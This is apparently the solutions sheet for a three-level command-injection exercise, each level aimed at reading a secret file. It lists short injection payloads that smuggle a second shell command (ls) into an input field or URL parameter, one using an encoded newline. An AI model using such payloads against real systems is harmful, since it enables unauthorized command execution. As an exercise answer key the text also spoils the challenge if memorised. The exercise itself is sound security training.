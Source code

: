# Solutions

**Level1**: Read the secret file
- command: `'; ls #`

**Level2**: Read the secret file
- command: `'&& ls #`

**Level3**: Read the secret file
- command - this time, input at the URL:  `&command='%0Als+#`

